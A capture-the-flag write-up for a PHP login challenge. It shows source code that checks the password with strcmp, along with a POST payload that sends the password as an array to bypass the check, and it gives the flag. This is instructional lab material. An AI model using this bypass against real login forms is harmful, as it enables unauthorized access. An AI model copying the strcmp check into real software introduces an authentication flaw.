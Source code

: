 # CTF Writeup
The challenge will be available on `http://challenges.at10a.net:8080/web06/`

# Source code can be found in: 
`http://challenges.at10a.net:8080/web06/index.bak`

# Source code:
```php
<?php
@require "flag.php";
if(!empty($_POST['user']) && !empty($_POST['password'])){
        if($_POST['user']==="adm1n" && !strcmp($flag,$_POST['password'])){
                echo $flag;
        }
}else{
?>

<html>
<head>
</head>
<body>
    <center><fieldset style="margin-top: 10px; padding: 10px;" width="60%">
        <legend><b>Login</b></legend><br/>
        <form name="login" method="POST" action="">
            Username : <input name="user" /><br/>
            Password : <input type="password" name="password" /></br></br>
            <input type="submit" value="login" name="button" />
        </form>
    </center></fieldset>
</body>
</html>
<?php
};
?>
```

# Solving:
As you can see user is `adm1n`, the vulnerability is in ```!strcmp($flag,$_POST['password'])```
This can be solved by posting an array password: ```user=adm1n&password[]=&button=login``` (using Burpsuite)
If we post data like this, it will make ```if($_POST['user']==="adm1n" && !strcmp($flag,$_POST['password']))``` return `true`

# The flag is: BMC{I_d0nt_lik3_strCmp}